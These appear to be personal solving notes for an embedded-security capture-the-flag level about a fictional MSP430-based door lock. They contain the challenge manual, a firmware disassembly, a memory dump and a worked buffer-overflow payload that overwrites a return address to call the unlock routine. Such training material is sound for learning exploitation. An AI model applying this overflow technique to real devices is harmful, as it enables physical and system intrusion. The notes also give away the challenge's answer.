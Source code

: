 OVERVIEW

    - We have fixed issues with passwords which may be too long.
    - This lock is attached the the LockIT Pro HSM-1.


DETAILS

    The LockIT Pro b.02  is the first of a new series  of locks. It is
    controlled by a  MSP430 microcontroller, and is  the most advanced
    MCU-controlled lock available on the  market. The MSP430 is a very
    low-power device which allows the LockIT  Pro to run in almost any
    environment.

    The  LockIT  Pro   contains  a  Bluetooth  chip   allowing  it  to
    communiciate with the  LockIT Pro App, allowing the  LockIT Pro to
    be inaccessable from the exterior of the building.

    There  is no  default  password  on the  LockIT  Pro HSM-1.   Upon
    receiving the  LockIT Pro,  a new  password must  be set  by first
    connecting the LockitPRO HSM to  output port two, connecting it to
    the LockIT Pro App, and entering a new password when prompted, and
    then restarting the LockIT Pro using the red button on the back.
    
    LockIT Pro Hardware  Security Module 1 stores  the login password,
    ensuring users  can not access  the password through  other means.
    The LockIT Pro  can send the LockIT Pro HSM-1  a password, and the
    HSM will  return if the password  is correct by setting  a flag in
    memory.
    
    This is Hardware  Version B.  It contains  the Bluetooth connector
    built in, and two available  ports: the LockIT Pro Deadbolt should
    be  connected to  port  1,  and the  LockIT  Pro  HSM-1 should  be
    connected to port 2.

    This is Software Revision 02. We have improved the security of the
    lock by  removing a conditional  flag that could  accidentally get
    set by passwords that were too long.

--------------------------------

0010 <__trap_interrupt>
0010:  3041           ret
4400 <__init_stack>
4400:  3140 0044      mov	#0x4400, sp
4404 <__low_level_init>
4404:  1542 5c01      mov	&0x015c, r5
4408:  75f3           and.b	#-0x1, r5
440a:  35d0 085a      bis	#0x5a08, r5
440e <__do_copy_data>
440e:  3f40 0000      clr	r15
4412:  0f93           tst	r15
4414:  0724           jz	$+0x10 <__do_clear_bss+0x0>
4416:  8245 5c01      mov	r5, &0x015c
441a:  2f83           decd	r15
441c:  9f4f d445 0024 mov	0x45d4(r15), 0x2400(r15)
4422:  f923           jnz	$-0xc <__do_copy_data+0x8>
4424 <__do_clear_bss>
4424:  3f40 0000      clr	r15
4428:  0f93           tst	r15
442a:  0624           jz	$+0xe <main+0x0>
442c:  8245 5c01      mov	r5, &0x015c
4430:  1f83           dec	r15
4432:  cf43 0024      mov.b	#0x0, 0x2400(r15)
4436:  fa23           jnz	$-0xa <__do_clear_bss+0x8>
4438 <main>
4438:  b012 0045      call	#0x4500 <login>
443c <__stop_progExec__>
443c:  32d0 f000      bis	#0xf0, sr
4440:  fd3f           jmp	$-0x4 <__stop_progExec__+0x0>
4442 <__ctors_end>
4442:  3040 d245      br	#0x45d2 <_unexpected_>
4446 <unlock_door>
4446:  3012 7f00      push	#0x7f
444a:  b012 4245      call	#0x4542 <INT>
444e:  2153           incd	sp
4450:  3041           ret
4452 <test_password_valid>
4452:  0412           push	r4
4454:  0441           mov	sp, r4
4456:  2453           incd	r4
4458:  2183           decd	sp
445a:  c443 fcff      mov.b	#0x0, -0x4(r4)
445e:  3e40 fcff      mov	#0xfffc, r14
4462:  0e54           add	r4, r14
4464:  0e12           push	r14
4466:  0f12           push	r15
4468:  3012 7d00      push	#0x7d
446c:  b012 4245      call	#0x4542 <INT>
4470:  5f44 fcff      mov.b	-0x4(r4), r15
4474:  8f11           sxt	r15
4476:  3152           add	#0x8, sp
4478:  3441           pop	r4
447a:  3041           ret
447c .strings:
447c: "Enter the password to continue."
449c: "Remember: passwords are between 8 and 16 characters."
44d1: "Access granted."
44e1: "That password is not correct."
44ff: ""
4500 <login>
4500:  3150 f0ff      add	#0xfff0, sp
4504:  3f40 7c44      mov	#0x447c "Enter the password to continue.", r15
4508:  b012 a645      call	#0x45a6 <puts>
450c:  3f40 9c44      mov	#0x449c "Remember: passwords are between 8 and 16 characters.", r15
4510:  b012 a645      call	#0x45a6 <puts>
4514:  3e40 3000      mov	#0x30, r14
4518:  0f41           mov	sp, r15
451a:  b012 9645      call	#0x4596 <getsn>
451e:  0f41           mov	sp, r15
4520:  b012 5244      call	#0x4452 <test_password_valid>
4524:  0f93           tst	r15
4526:  0524           jz	$+0xc <login+0x32>
4528:  b012 4644      call	#0x4446 <unlock_door>
452c:  3f40 d144      mov	#0x44d1 "Access granted.", r15
4530:  023c           jmp	$+0x6 <login+0x36>
4532:  3f40 e144      mov	#0x44e1 "That password is not correct.", r15
4536:  b012 a645      call	#0x45a6 <puts>
453a:  3150 1000      add	#0x10, sp
453e:  3041           ret
4540 <__do_nothing>
4540:  3041           ret
4542 <INT>
4542:  1e41 0200      mov	0x2(sp), r14
4546:  0212           push	sr
4548:  0f4e           mov	r14, r15
454a:  8f10           swpb	r15
454c:  024f           mov	r15, sr
454e:  32d0 0080      bis	#0x8000, sr
4552:  b012 1000      call	#0x10
4556:  3241           pop	sr
4558:  3041           ret
455a <putchar>
455a:  2183           decd	sp
455c:  0f12           push	r15
455e:  0312           push	#0x0
4560:  814f 0400      mov	r15, 0x4(sp)
4564:  b012 4245      call	#0x4542 <INT>
4568:  1f41 0400      mov	0x4(sp), r15
456c:  3150 0600      add	#0x6, sp
4570:  3041           ret
4572 <getchar>
4572:  0412           push	r4
4574:  0441           mov	sp, r4
4576:  2453           incd	r4
4578:  2183           decd	sp
457a:  3f40 fcff      mov	#0xfffc, r15
457e:  0f54           add	r4, r15
4580:  0f12           push	r15
4582:  1312           push	#0x1
4584:  b012 4245      call	#0x4542 <INT>
4588:  5f44 fcff      mov.b	-0x4(r4), r15
458c:  8f11           sxt	r15
458e:  3150 0600      add	#0x6, sp
4592:  3441           pop	r4
4594:  3041           ret
4596 <getsn>
4596:  0e12           push	r14
4598:  0f12           push	r15
459a:  2312           push	#0x2
459c:  b012 4245      call	#0x4542 <INT>
45a0:  3150 0600      add	#0x6, sp
45a4:  3041           ret
45a6 <puts>
45a6:  0b12           push	r11
45a8:  0b4f           mov	r15, r11
45aa:  073c           jmp	$+0x10 <puts+0x14>
45ac:  1b53           inc	r11
45ae:  8f11           sxt	r15
45b0:  0f12           push	r15
45b2:  0312           push	#0x0
45b4:  b012 4245      call	#0x4542 <INT>
45b8:  2152           add	#0x4, sp
45ba:  6f4b           mov.b	@r11, r15
45bc:  4f93           tst.b	r15
45be:  f623           jnz	$-0x12 <puts+0x6>
45c0:  3012 0a00      push	#0xa
45c4:  0312           push	#0x0
45c6:  b012 4245      call	#0x4542 <INT>
45ca:  2152           add	#0x4, sp
45cc:  0f43           clr	r15
45ce:  3b41           pop	r11
45d0:  3041           ret
45d2 <_unexpected_>
45d2:  0013           reti	pc

--------------------------------

the
interrupt 0x7D will pass a given password to the HSM, and will set a byte in
memory if the password entered matches the stored password.

The stored password can be reset by detaching the HSM from the lock and
attaching it to the Model 1 reset device, also included.

 The interrupt kind
is passed in R2, the status register, on the high byte. Arguments are passed
on the stack

The door lock must be attached to output pin 7 of the MCU.
This enables the CPU to trigger software interrupt 0x7F

450c:  3f40 9c44      mov	#0x449c "Remember: passwords are between 8 and 16 characters.", r15
4510:  b012 a645      call	#0x45a6 <puts>
4514:  3e40 3000      mov	#0x30, r14

primitives:
password is said to be 8-16 chars long but buffer is 48 bytes

test input 00112233445566778899aabbccddeeff

input can overwrite memory

input is stored at 0x43ee

memory from 43ee:
                                         43ee
43e0: 7044 7d00 ee43 e843 0043 0000 2445 aaaa   pD}..C.C.C..$E..
43f0: aaaa 0000 0000 0000 0000 0000 0000 3c44   ..............<D
4400: 3140 0044 1542 5c01 75f3 35d0 085a 3f40   1@.D.B\.u.5..Z?@
4410: 0000 0f93 0724 8245 5c01 2f83 9f4f d445   .....$.E\./..O.E
4420: 0024 f923 3f40 0000 0f93 0624 8245 5c01   .$.#?@.....$.E\.
4430: 1f83 cf43 0024 fa23 b012 0045 32d0 f000   ...C.$.#...E2...
4440: fd3f 3040 d245 3012 7f00 b012 4245 2153   .?0@.E0....BE!S
4450: 3041 0412 0441 2453 2183 c443 fcff 3e40   0A...A$S!..C..>@
4460: fcff 0e54 0e12 0f12 3012 7d00 b012 4245   ...T....0.}...BE
4470: 5f44 fcff 8f11 3152 3441 3041 456e 7465   _D....1R4A0AEnte
4480: 7220 7468 6520 7061 7373 776f 7264 2074   r the password t
4490: 6f20 636f 6e74 696e 7565 2e00 5265 6d65   o continue..Reme
44a0: 6d62 6572 3a20 7061 7373 776f 7264 7320   mber: passwords 
44b0: 6172 6520 6265 7477 6565 6e20 3820 616e   are between 8 an
44c0: 6420 3136 2063 6861 7261 6374 6572 732e   d 16 characters.
44d0: 0041 6363 6573 7320 6772 616e 7465 642e   .Access granted.
44e0: 0054 6861 7420 7061 7373 776f 7264 2069   .That password i
44f0: 7320 6e6f 7420 636f 7272 6563 742e 0000   s not correct...
4500: 3150 f0ff 3f40 7c44 b012 a645 3f40 9c44   1P..?@|D...E?@.D
4510: b012 a645 3e40 3000 0f41 b012 9645 0f41   ...E>@0..A...E.A
4520: b012 5244 0f93 0524 b012 4644 3f40 d144   ..RD...$..FD?@.D
4530: 023c 3f40 e144 b012 a645 3150 1000 3041   .<?@.D...E1P..0A
           ^jumps here if input is incorrect
                     ^this gets executed after incorrect input

what i want to be executed:
call #0x4446
b0124644
(calls unclock door)

but i can only overwrite 48 bytes

i can play with this:
4400: 3140 0044 1542 5c01 75f3 35d0 085a 3f40
4410: 0000 0f93 0724 8245 5c01 2f83 9f4f d445

3140004415425c0175f335d0085a3f4000000f93072482455c012f839f4fd445
3140 0044      mov	#0x4400, sp
1542 5c01      mov	&0x015c, r5
75f3           and.b	#-0x1, r5
35d0 085a      bis	#0x5a08, r5
3f40 0000      clr	r15
0f93           tst	r15
0724           jz	$+0x10
8245 5c01      mov	r5, &0x015c
2f83           decd	r15

i can overwrite <__init_stack> <__low_level_init> and <__do_copy_data>

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa4644

looking at the stack while trying to figure out a way to execute my code ive realized that i can overwrite a call address
Just put 0x4446 there (unlock lock)







